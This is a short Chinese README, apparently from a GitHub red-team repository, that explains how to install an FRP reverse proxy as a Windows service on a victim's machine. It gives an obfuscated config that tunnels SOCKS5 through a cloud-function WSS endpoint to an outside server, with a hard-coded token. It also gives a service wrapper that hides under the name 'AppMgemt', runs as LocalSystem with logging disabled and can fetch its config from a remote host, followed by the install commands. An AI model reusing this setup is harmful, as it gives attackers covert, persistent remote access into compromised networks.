 # rfas
让FRP以Windows服务运行

FRP配置文件采用云函数+TLS加密
如果不想做流量加密，将f3p.exe替换为正常的frp文件即可，配置文件同理

将压缩包上传到受害者机器，解压，运行
zz是frp的配置文件
```
[common]
n2PvV = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
05ZBz = 443 <wss服务端口>
tx06L = qax!@#123 <连接服务器的token>
9XiEV = wss <WebSocket协议>
zSYqj = true
fV0yw = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
LYn04 = false <是否自删除配置文件>

[plugin_socks55]
N4DCJ = tcp
aQmFn = 8999 <remote_port>
oAZdB = true
aYpEk = true
umsUv = socks5 <协议>
```
run.xml
```
<service>
    <id>AppMgemt</id>
    <name>AppMgemt</name>
    <description></description>
    <!--
    <download from="http://x.x.x.x/<frp配置文件>" to="%BASE%\zz" />
    !-->
    <executable>"%BASE%\f3p.exe"</executable>
    <arguments></arguments>
    <serviceaccount>
      <username>LocalSystem</username>
     <!--
       <username>NT AUTHORITY\SYSTEM</username>
     !-->
    </serviceaccount>
    <log mode="none"/>
</service>
```
run.exe install & run.exe start

<img width="864" alt="image" src="https://user-images.githubusercontent.com/26845888/153735306-d161b493-caa0-4a43-8422-947ffbdea34e.png">
